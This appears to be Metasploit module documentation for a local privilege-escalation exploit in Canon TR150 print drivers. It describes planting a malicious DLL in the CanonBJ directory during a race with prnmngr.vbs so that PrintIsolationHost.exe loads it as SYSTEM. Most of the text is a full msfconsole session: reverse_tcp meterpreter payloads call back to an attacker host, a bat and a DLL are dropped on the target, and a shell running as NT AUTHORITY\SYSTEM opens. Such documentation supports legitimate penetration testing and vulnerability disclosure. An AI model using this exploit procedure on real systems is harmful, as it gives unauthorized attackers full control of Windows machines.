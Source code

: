 ## Vulnerable Application

Canon TR150 print drivers versions 3.71.2.10 and below allow local users to read/write files
within the `CanonBJ` directory and its subdirectories. By writing a malicious DLL to the
`C:\\ProgramData\\CanonBJ\\IJPrinter\\CNMWINDOWS\\Canon TR150 series\\LanguageModules\\040C\\CNMurGE.dll`
path at the right time whilst running the `C:\\Windows\\System32\\Printing_Admin_Scripts\\en-US\\prnmngr.vbs`
script to install a new printer, a timing issue can be exploited to cause the `PrintIsolationHost.exe` program,
which runs as `NT AUTHORITY\SYSTEM`, to successfully load the malicious DLL. Successful exploitation
will grant attackers code execution as the `NT AUTHORITY\SYSTEM` user.

This module leverages the `prnmngr.vbs` script
to add and delete printers. Multiple runs of this
module may be required given successful exploitation
is time-sensitive.

## Verification Steps

1. Install a vulnerable Canon TR150 driver
2. Start `msfconsole`
3. Get a session with basic privileges
4. Do: `use exploit/windows/local/canon_driver_privesc`
5. Do: `set SESSION <sess_no>`
6. Do: `run`
7. You should get a shell running as `SYSTEM`.

## Options

## Scenarios

### Canon TR150 series v3.71.2.10

```
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.0.0.8
lhost => 10.0.0.8
msf6 exploit(multi/handler) > set lport 1270
lport => 1270
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.0.0.8:1270
[*] Sending stage (200262 bytes) to 10.0.0.7
[*] Meterpreter session 1 opened (10.0.0.8:1270 -> 10.0.0.7:49816) at 2021-08-05 11:14:25 -0400

meterpreter > getuid
Server username: MOURNLAND\lowlevel
meterpreter > sysinfo
Computer        : MOURNLAND
OS              : Windows 10 (10.0 Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use exploit/windows/local/canon_driver_privesc
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/canon_driver_privesc) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/canon_driver_privesc) > set lhost 10.0.0.8
lhost => 10.0.0.8
msf6 exploit(windows/local/canon_driver_privesc) > set session 1
session => 1
msf6 exploit(windows/local/canon_driver_privesc) > run

[*] Started reverse TCP handler on 10.0.0.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Canon driver directory has full permissions
[*] Dropping bat to C:\Users\lowlevel\AppData\Local\Temp\YoBndh.bat
[*] Adding printer ePzTcgz...
[*] Sending stage (200262 bytes) to 10.0.0.7
[+] Deleted C:\Users\lowlevel\AppData\Local\Temp\YoBndh.bat
[+] Deleted C:\Users\lowlevel\AppData\Local\Temp\CNMurGE.dll
[*] Meterpreter session 2 opened (10.0.0.8:4444 -> 10.0.0.7:49819) at 2021-08-05 11:15:31 -0400
[*] Deleting printer ePzTcgz

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : MOURNLAND
OS              : Windows 10 (10.0 Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > quit
[*] Shutting down Meterpreter...
```
